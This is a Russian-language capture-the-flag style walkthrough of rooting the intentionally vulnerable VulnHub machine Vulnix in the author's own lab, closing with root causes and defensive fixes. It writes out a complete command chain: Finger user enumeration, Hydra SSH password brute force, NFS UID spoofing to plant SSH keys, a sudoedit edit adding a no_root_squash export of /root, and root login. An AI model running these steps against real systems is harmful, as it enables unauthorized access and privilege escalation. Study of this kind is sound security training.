










# HackLAB: Vulnix — полное прохождение Boot2Root

**Язык / Language:** 🇷🇺 **Русский** | [🇬🇧 English](README.md)

> **Внимание: спойлеры.** Это подробный разбор компрометации заведомо уязвимой машины VulnHub. Все действия проводились в собственной изолированной лаборатории VMware.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Машина | [HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix%2C48/) |
| IP цели | `192.168.77.100` (лабораторная сеть VMware) |
| Атакующая система | Kali Linux |
| Целевая ОС | Ubuntu 12.04.1 LTS, Linux 3.2.0-29-generic-pae, i686 |
| Цель | Получить root-доступ и найти трофей в `/root` |
| Основные проблемы | Раскрытие пользователей через Finger, слабый пароль SSH, доверие NFS к UID клиента, избыточные права sudo, `no_root_squash` |
| Результат | Получен root (`uid=0`), трофей прочитан |

Это прохождение интересно тем, что цепочка основана **на сочетании ошибок конфигурации**, а не на эксплуатации одной CVE. Ниже представлены реально выполненные команды, наблюдения, причины выбора вектора и ограничения доказательств.

## Схема атаки



## 1. Разведка и сканирование портов

Сначала были проверены все TCP-порты лабораторной цели:

```bash
nmap -p- -T4 -Pn 192.168.77.100 -oN vulnix_full.nmap
```

Сканирование обнаружило **17 открытых TCP-портов**:

| Порт | Сервис |
| --- | --- |
| 22 | SSH |
| 25 | SMTP |
| 79 | Finger |
| 110 | POP3 |
| 111 | RPCBind |
| 143 | IMAP |
| 512 | exec |
| 513 | login |
| 514 | shell |
| 993 | IMAPS |
| 995 | POP3S |
| 2049 | NFS |
| 37939, 38143, 45639, 48241, 53779 | Дополнительные RPC-порты |

Высокие порты не обязательно принадлежат самостоятельным уязвимым приложениям: их назначение уточняется через RPCBind.


Далее определены версии основных служб:

```bash
nmap -sV -sC -Pn -p 22,25,79,111,2049 192.168.77.100 -oN vulnix_services.nmap
```

Выявлены OpenSSH **5.9p1**, Postfix SMTP, Debian fingerd, RPCBind и NFS. Поддержка SMTP `VRFY` и наличие Finger подсказали возможность перечисления пользователей, а NFS — перспективу исследования сетевых прав на файлы.



## 2. Перечисление пользователей через Finger

Использован модуль Metasploit со словарём стандартных имён Unix:

```text
msfconsole
search finger_users
use auxiliary/scanner/finger/finger_users
set RHOSTS 192.168.77.100
set USERS_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
run
```

Сервис раскрыл несколько пользователей, в том числе `user`, `backup` и системные учётные записи. Сам факт существования имени **не означает** возможности интерактивного входа, но позволяет обоснованно выбрать пользователя для проверки SSH-аутентификации.



## 3. Первоначальный доступ: слабый пароль SSH

Для лабораторной учётной записи выполнена словарная проверка с ограничением числа параллельных подключений:

```bash
hydra -l user -P /usr/share/wordlists/fasttrack.txt 192.168.77.100 ssh -t 4
```

Найден пароль `user:letmein`, после чего выполнен вход:

```bash
ssh user@192.168.77.100
```

Так был получен первоначальный доступ с непривилегированной учётной записью. Причина — слабый пароль, а не автоматически предполагаемая уязвимость версии OpenSSH.


## 4. Локальная разведка и гипотеза об NFS

На целевой машине исследован файл учётных записей:

```bash
grep '^vulnix:' /etc/passwd
```

В результате выявлены пользователь `vulnix`, **UID 2008**, **GID 2008**, домашний каталог `/home/vulnix` и оболочка `/bin/sh`.

Параллельно с Kali перечислены экспортированные NFS-каталоги и RPC-программы:

```bash
showmount -e 192.168.77.100
rpcinfo -p 192.168.77.100
```

Сервер экспортировал:

```text
/home/vulnix *
```

Исходная конфигурация и права на каталог:

```text
/home/vulnix *(rw,root_squash)
drwxr-x--- ... 2008 2008 ... /home/vulnix
```

Каталог был подключён к Kali:

```bash
sudo mkdir -p /tmp/vulnix_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/home/vulnix /tmp/vulnix_nfs
ls -lan /tmp/vulnix_nfs
```

Первая попытка просмотра вернула `Permission denied`. Это значимый результат: экспорт смонтирован, но файловые права запрещают доступ текущему пользователю. Числовой владелец каталога — UID 2008.


## 5. Подмена UID через NFS и размещение SSH-ключа

В установленной конфигурации NFSv3 использовался `AUTH_SYS`: клиент передаёт числовые UID/GID, которым сервер доверяет в рамках заданной модели. `root_squash` ограничивает клиентский UID 0, однако **не препятствует подмене других UID**.

Для проверки гипотезы на собственной Kali создан пользователь с идентификаторами владельца экспортированного каталога:

```bash
sudo groupadd -g 2008 vulnix
sudo useradd -u 2008 -g 2008 -m vulnix
sudo -u vulnix -s
```

Теперь операции выполнялись с UID 2008. В домашний каталог целевого пользователя через NFS был помещён публичный SSH-ключ:

```bash
cd /tmp/vulnix_nfs
ssh-keygen -t rsa -f /tmp/id_rsa -N ""
mkdir -p .ssh
cat /tmp/id_rsa.pub > .ssh/authorized_keys
chmod 700 .ssh
chmod 600 .ssh/authorized_keys
exit
```

Команда с `>` отражает фактическое выполнение в лаборатории. Если в `authorized_keys` уже есть записи, безопаснее предварительно их изучить и добавлять новый ключ, не стирая существующие. **Закрытый SSH-ключ не публикуется.**





Закрытый ключ был скопирован в профиль пользователя Kali с правами `600`:

```bash
sudo install -o kali -g kali -m 600 /tmp/id_rsa /home/kali/.ssh/vulnix_lab
```

Для совместимости современного SSH-клиента со старым сервером потребовались параметры:

```bash
ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  vulnix@192.168.77.100
```

Команда `id` подтвердила `uid=2008(vulnix)`. Ослабленные алгоритмы использовались только на изолированной учебной машине. Предупреждение об отсутствии постквантового обмена ключами не являлось причиной ошибок аутентификации.



## 6. Повышение привилегий через sudoedit

После входа под `vulnix` выполнено:

```bash
sudo -l
```

Подтверждено право:

```text
(root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```

Это позволяет непривилегированному пользователю редактировать конфигурацию критически важного NFS-сервиса от имени root.

Через разрешённый редактор:

```bash
sudoedit /etc/exports
```

к существующему экспорту добавлена строка:

```text
/root *(rw,sync,no_root_squash)
```

`no_root_squash` сохраняет UID 0, переданный клиентом, вместо преобразования его в непривилегированную учётную запись; `*` допускает клиентов без узкого ограничения по адресам. Это создаёт опасную возможность записи в привилегированный каталог.



### Важная оговорка о перезагрузке

Правила `sudo` **не** давали пользователю `vulnix` права перезапустить NFS или систему. После сохранения конфигурации **я самостоятельно перезапустил принадлежащую мне учебную ВМ через VMware**, чтобы сервер применил экспорт. Это действие владельца лаборатории, а **не доказанная возможность атакующего с ограниченной shell-сессией**. В реальной инфраструктуре применение изменений потребовало бы отдельного условия — штатного перезапуска службы либо согласованного обслуживания.

## 7. Доступ к root через NFS

После перезапуска новый экспорт был смонтирован на Kali:

```bash
sudo mkdir -p /mnt/root_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/root /mnt/root_nfs
findmnt /mnt/root_nfs
sudo ls -lan /mnt/root_nfs
```

В удалённом `/root` обнаружены файлы с UID 0, в том числе `trophy.txt`. Для практического подтверждения `no_root_squash` создан и затем удалён временный файл:

```bash
sudo touch /mnt/root_nfs/nfs_root_test
sudo ls -ln /mnt/root_nfs/nfs_root_test
sudo rm /mnt/root_nfs/nfs_root_test
```

В результате файл имел **UID 0 и GID 0** на экспортированной файловой системе.



Конфигурация SSH позволяла вход root по публичному ключу: `PermitRootLogin yes`, `PubkeyAuthentication yes`. Публичная часть ранее созданного ключа была добавлена в `/root/.ssh/authorized_keys`:

```bash
sudo mkdir -p /mnt/root_nfs/.ssh
sudo chmod 700 /mnt/root_nfs/.ssh
sudo sh -c 'cat /tmp/id_rsa.pub >> /mnt/root_nfs/.ssh/authorized_keys'
sudo chmod 600 /mnt/root_nfs/.ssh/authorized_keys
sudo ls -lan /mnt/root_nfs/.ssh
```



Финальное подключение:

```bash
ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  root@192.168.77.100

whoami
id
hostname
ls -la /root
cat /root/trophy.txt
```

Результат подтвердил `uid=0(root)` и доступ к трофею. Текст трофея намеренно не дублируется в README, но подтверждающий скриншот сохранён.



## 8. Первопричины и рекомендации по защите

| Проблема | Причина / последствия | Защитные меры |
| --- | --- | --- |
| Finger раскрывает пользователей | Излишняя информация об учётных записях | Отключить неиспользуемый сервис; ограничить доступ |
| Слабый пароль SSH | Первоначальный доступ по угадываемому паролю | Сильные уникальные пароли, ограничение попыток, мониторинг, ключевая аутентификация |
| Доверие к UID клиента в NFSv3 | Подмена UID 2008 в `AUTH_SYS` | Разрешать только доверенных клиентов; минимизировать права записи; рассмотреть Kerberos для RPC |
| Широкий экспорт NFS | `*` и `rw` увеличивают доступную поверхность | Ограничить IP/подсети; использовать `ro`, где возможно |
| Избыточное правило sudo | `sudoedit` разрешает изменение критичной конфигурации | Убрать ненужное делегирование, отделить управление конфигурацией |
| `no_root_squash` | Клиентский UID 0 может изменять привилегированные файлы | Не экспортировать `/root`, применять `root_squash`, контролировать экспорты |
| Прямой SSH-вход root | Добавленный ключ открывает интерактивную root-сессию | Запретить прямой вход root, контролировать `authorized_keys` |

Принципиально: `root_squash` не решает полностью проблему доверия к клиентским идентификаторам в `AUTH_SYS`. Требуется анализ архитектуры аутентификации и доверенных клиентов.

## 9. Доказательства и ограничения

- В папке `screenshots/` лежат **реальные снимки терминала**, переименованные в соответствии с этапами прохождения.
- Оригинальные текстовые `.nmap`-файлы не были приложены, поэтому **не подменялись вымышленными результатами**. Команды для их повторного получения приведены в `scans/README.md`.
- Некоторые снимки фиксируют промежуточные состояния (отказ в доступе, открытый редактор). Успешный root-доступ подтверждён отдельно.
- Действия ограничены собственной изолированной ВМ. Реальные сторонние системы не тестировались.
- Закрытый SSH-ключ в репозиторий не включён.

## 10. Что я изучил

1. Результаты разных сервисов нужно **сопоставлять**: Finger дал имена, NFS — экспорт каталога, `/etc/passwd` — UID владельца.
2. Числовые права Unix не гарантируют защиту, когда сетевой протокол доверяет идентификатору, предоставленному клиентом.
3. Даже одна разрешённая через `sudoedit` конфигурация может открывать путь к полной компрометации.
4. Необходимо отличать возможности атакующего от действий владельца лаборатории: сохранённый `/etc/exports` ещё должен быть применён NFS-сервером.
5. Хороший write-up включает не только команды и трофей, но и ошибки, доказательства, анализ причин и защитные меры.

## Источники

- [Официальная страница Vulnix на VulnHub](https://www.vulnhub.com/entry/hacklab-vulnix%2C48/)
- [Руководство Linux `exports(5)`](https://man7.org/linux/man-pages/man5/exports.5.html)
- [Руководство OpenSSH `sshd_config(5)`](https://man.openbsd.org/sshd_config)

---

**Отказ от ответственности:** только учебное тестирование собственной заведомо уязвимой виртуальной машины.
